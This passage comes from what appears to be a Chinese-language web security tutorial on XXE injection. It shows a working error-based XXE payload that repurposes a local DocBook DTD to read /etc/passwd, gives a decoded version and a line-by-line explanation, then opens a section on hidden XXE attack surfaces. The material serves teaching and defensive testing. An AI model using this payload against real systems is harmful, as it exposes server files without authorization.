 程序没有返回任何信息![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jv7IhtdDp3p56tsRxYaxUjlvHRXSaRVia4b6UFBYtcaF1brZ8Gdt3nCq1Ft5XKcI3V352D0ZeiasHew/640?wx_fmt=png&from=appmsg "")  
删除一个字符，出现报错，证明文件存在![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jv7IhtdDp3p56tsRxYaxUjlwA2HibnCq4yOWYChxn5RicvAzsZiaz5aIYwfeunic2lic1dgqPJrpFia6P2A/640?wx_fmt=png&from=appmsg "")  
  
  
造攻击载荷，重写本地 DTD 文件中的ISOamso  
实体，尝试读取/etc/passwd  
文件。  
```
<!DOCTYPE xyz [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '<!ENTITY &#x25; file SYSTEM "file:///etc/passwd"><!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///aaabbbccc/&#x25;file;&#x27;>">&#x25;eval;&#x25;error;'>
%local_dtd;
]>

```  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jv7IhtdDp3p56tsRxYaxUjlWMzIfKhpe9HgpTgV4WAlaxh3Z3uVniabyV6icWApp9VYkhV4ZIibPw1RQ/640?wx_fmt=png&from=appmsg "")  
  
image.png  
- 定义一个名为local_dtd  
的 XML 参数实体，它加载本地 DTD 文件的内容。  
  
- 重新定义名为ISOamso  
的 XML 参数实体，该实体先前已经在本地 DTD 文件中定义。但在此处，该实体被重新定义为恶意的攻击载荷，用于触发错误消息，并包含/etc/passwd  
文件的内容。  
  
- 使用local_dtd  
实体，解析外部 DTD 并覆盖ISOamso  
实体的定义值，这将产生预期的错误消息。  
  
```
&#x25;  --解码-->  %
&#x26;  --解码-->  &
&#x27;  --解码-->  '

一次解码后的攻击载荷：

<!DOCTYPE xyz [
  <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
  <!ENTITY % ISOamso '    <!ENTITY % file SYSTEM "file:///etc/passwd">    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///aaabbbccc/%file;'>">    %eval;    %error;  '>
%local_dtd;
]>

```  
# 7. 寻找XXE注入的隐藏攻击面  
  
在许多情况下，XXE 注入漏洞的攻击面很明显，因为应用程序的正常 HTTP 流量中包含 XML 格式数据的请求。但在其他情况下，攻击面不太明显。然而，如果查找到了正确的位置，则会在不包含任何 XML 的请求中找到 XXE 攻击面。  
## 7.1 XInclude攻击  
  